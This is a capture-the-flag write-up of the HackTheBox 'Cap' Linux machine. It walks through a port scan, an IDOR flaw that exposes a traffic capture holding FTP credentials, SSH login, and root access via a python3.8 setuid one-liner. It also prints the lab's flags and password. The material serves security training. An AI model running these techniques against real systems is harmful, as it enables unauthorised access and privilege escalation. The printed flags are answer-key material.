






<p align="center">
  
</p>

---

- 🎯 **Target:** HackTheBox - Cap Linux
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities; Privilege Escalation
- 💻 **Platform:** Linux

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F-vertical-privilege-escalation)
- [Capabilities exploitation](#-capabilities-exploitation)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{15782241f14c7bf2aa620b67fa9a4115}`  |
|   Root Flag   | `flag{fc5860b0afc49545302d736baf191603}`  |
|  Credentials  | `nathan:Buck3tH4TF0RM3!`                  |
|   Technique   | Capabilities-based Privilege Escalation   |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.245 cap.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services:

```bash

sudo nmap -sVC -p- -vv -T5 cap.htb -oN tcp_scan_cap

```

> Result:

```bash

21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Gunicorn

```

> From the scan results I see three open ports:

- `21` - `ftp`
- `80` - `web`
- `22` - `ssh`

> Open the web application in the browser:



> I see a dashboard for managing network data for user `nathan`:

## 🚪 Entry Point

> I go to the `security snapshot` section:



> I see a panel from which I can download a ready `.pcap` file with captured traffic of user `nathan`:



> The file can be downloaded and opened in `wireshark` to analyze the intercepted traffic:



> There is no useful information in the intercepted traffic.

> The address of the current panel page from which I downloaded the `.pcap` file has the following url - `http://cap.htb/data/4`
> The `4` parameter clearly points to some scanning ID for the current user `nathan`.

> I try to access other scanning results by replacing the ID, for example, with `0`:



> This `.pcap` file already contains interesting information intercepted in the `ftp` protocol.
> I got the user credentials - `nathan`:`Buck3tH4TF0RM3!`

---

**Note:** This type of vulnerability is called `IDOR (Insecure Direct Object References)`. This is a vulnerability in which a hacker has the ability to access objects (files,
accounts, data, orders, etc.) by changing identifiers (ID) directly in requests without proper access rights verification. That is, the `IDOR` vulnerability itself is an
`insecure direct object reference`. If there is no authorization check on the server - that is, the server does not check whether this is my data, then I get access to someone else's
information. In this case, to someone else's traffic scanning file that contains sensitive data.

---

## 🔓 Initial Access

> I use the received credentials of the user `nathan` and try to log in via `ssh` to the system:

```bash

ssh nathan@cap.htb

```
> Result:



> I get first flag:

```bash

nathan@cap:~$ cat user.txt

15782241f14c7bf2aa620b67fa9a4115

nathan@cap:~$

```
> user flag - `15782241f14c7bf2aa620b67fa9a4115`

---
## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

> Let's list the executable files for which `POSIX capabilities` are installed:

```bash

nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$

```
> Ok, I see the executable `python3.8` with `cap_setuid+eip` capabilities set. This is a potential vector for privilege escalation
> since such `cap_setuid` permission allows a local user to change the `UID` of the process and set it to, for example, `0` - that is, `root`.
> `Python3.8` is an interpreted language and setting such `capabilities` is a serious error for executables.

---
### 🔑 Capabilities exploitation

> Using this feature we simply call `setuid(0)` inside the python script and change our own `uid` to `0`:

```bash

/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

```
> Result:

```bash

root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~#

```
> get root flag:

```bash

root@cap:~# cd /root
root@cap:/root# ls -lah
total 36K
drwx------  6 root root 4.0K Jul 13 12:06 .
drwxr-xr-x 20 root root 4.0K Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4.0K May 23  2021 .cache
drwxr-xr-x  3 root root 4.0K May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 13 17:37 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Jul 13 12:06 root.txt
drwxr-xr-x  3 root root 4.0K May 23  2021 snap
root@cap:/root# cat root.txt
fc5860b0afc49545302d736baf191603
root@cap:/root#

```
> root flag - `fc5860b0afc49545302d736baf191603`

---
## 🧠 Conclusion

> During the machine walkthrough, the web vulnerability `IDOR` was detected in the control panel in the `security snapshot` section. By changing the scan ID from `4` to `0`, access was gained to
> someone else's `.pcap` scan file, in which the user credentials of `nathan` were found, allowing initial access to the system via `ssh`. After running `enumeration`, the executable file
> `python3.8` was found, for which insecure capabilities `cap_setuid` were set, allowing the current user's `uid` to be changed to `0`, thereby gaining access to the shell with `root` privileges.

<p align="center">
  
</p>
